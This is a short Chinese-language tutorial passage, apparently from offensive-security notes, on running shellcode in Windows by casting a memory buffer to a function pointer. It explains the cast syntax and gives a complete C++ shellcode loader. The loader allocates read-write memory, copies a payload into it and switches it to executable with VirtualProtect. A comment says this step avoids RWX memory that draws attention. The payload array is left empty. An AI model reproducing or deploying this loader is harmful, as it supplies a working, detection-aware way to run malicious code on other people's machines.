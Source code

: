 

### 函数指针转换执行shellcode

其他步骤都一样，在执行shellcode时不使用CreateThread，使用(void(*)())exec_mem)();执行内存。

或者可以这么写

```c++
void (*go)() = (void (*)()) ptr; go();
创建一个指针函数，并将指针地址分配给该函数
```

让我们逐步解释这个表达式：

- `(void(*)())`：这是一个类型转换操作符，用于将其后的表达式转换为指定的类型。在这里，`(void(*)())` 表示将表达式转换为一个函数指针类型。
- `()`：表示一个函数调用运算符。在这个表达式中，我们没有提供任何函数名，而是在括号内使用了一个函数指针类型的转换操作。
- `*`：表示指针。在函数指针类型中，`*` 用于表示一个指向函数的指针。
- `void`：表示函数的返回类型。在这个表达式中，我们指定函数的返回类型为 `void`，表示函数不返回任何值。
- `()`：表示函数的参数列表。在这个表达式中，空括号表示函数没有参数。

因此，`(void(*)())` 表示一个没有参数并且返回类型为 `void` 的函数指针类型。

整个表达式 `(void(*)())exec_mem` 将指向内存中机器码的指针 `exec_mem` 转换为一个函数指针，使得我们可以通过函数指针的方式调用内存中的机器码，即执行 shellcode。

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
  DWORD oldprotect = 0;

	//shellcode在main函数内，存储在pe结构的sections table中的.text部分
	unsigned char payload[] = {};
	unsigned int payload_len = sizeof(payload);
	
	// 使用VirtualAlloc申请一个可读可写的内存，这里没有申请执行权限是为了防止出现RWX权限的敏感内存
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// 将shellcode复制到申请的内存中，这里还可以用memcpy等
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// 使用VirtualProtect添加执行权限
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// 如果返回正常，函数指针类型转换执行shellcode
	if ( rv != 0 ) {
			((void(*)())exec_mem)();
	}

	return 0;
}

```
